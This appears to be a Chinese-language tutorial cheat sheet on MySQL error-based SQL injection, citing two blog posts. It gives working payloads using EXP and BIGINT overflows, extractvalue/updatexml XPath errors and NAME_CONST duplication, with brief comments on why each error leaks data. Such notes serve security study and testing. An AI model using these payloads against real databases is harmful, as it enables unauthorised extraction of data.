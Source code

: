 
 - [BIGINT Overflow Error Based SQL Injection](https://osandamalith.com/2015/07/08/bigint-overflow-error-based-sql-injection/)
 - [Error Based SQL Injection Using EXP](https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/)

---


利用double数值类型超出范围进行报错注入:

```sql
UNION SELECT (exp(~(SELECT * FROM (SELECT user())a))),2,3 --+
```

![](/assets/images/move/1549204704344-e27ead96-e984-40ea-8e07-748e75ac5d91.png)


利用bigint溢出进行报错注入：

```sql
UNION SELECT (!(SELECT * FROM (SELECT user())x) - ~0),2,4 --+
```

![](/assets/images/move/1549205141215-9fb46d96-672c-45cc-977c-d30cd38910ae.png)


利用xpath函数报错注入：

```sql
# mysql 对 xml 数据进行查询和修改的 xpath 函数，xpath 语法错误 
AND extractvalue(1, concat(0x7e, (SELECT @@version), 0x7e)) --+
AND updatexml(1, concat(0x7e, (SELECT @@version), 0x7e), 1) --+
```

![](/assets/images/move/1549205345651-77b286e1-921d-4506-9dd2-31cca35f41ef.png)

利用数据的重复性报错注入:

```sql
# mysql 重复特性，此处重复了 version，所以报错。
UNION SELECT 1,2,3 FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1))x --+
```

